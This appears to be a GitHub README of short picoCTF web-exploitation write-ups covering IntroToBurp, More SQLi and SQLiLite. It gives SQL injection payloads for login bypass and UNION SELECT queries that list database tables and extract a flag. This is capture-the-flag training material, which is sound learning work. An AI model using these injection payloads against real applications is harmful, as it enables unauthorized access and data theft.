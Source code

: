 ## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL



### picoCTF 2024
#### IntroToBurp
![IntroToBurp question](IntroToBurp-q.png)
> fill "Registration" and in next step don't send "OPT" and [DONE].

---
---
### picoCTF 2023
#### More SQLi
![More SQLi question](MoreSQLi-q.png)

> just inject `' or 1=1;--` in password field.

<br>

> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`

![all tables](MoreSQLi-1.png)

<br>

> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].

![flag](MoreSQLi-2.png)

---
#### SQLiLite
![SQLiLite question](SQLiLite-q.png)

> in first step use we trying to login as "admin" user with this request and inject `' or '1'='1';--` in password filed.

![login page](SQLiLite-1.png)

> after login see this massage so we trying to inspect this page and [DONE].

![after log in](SQLiLite-2.png)


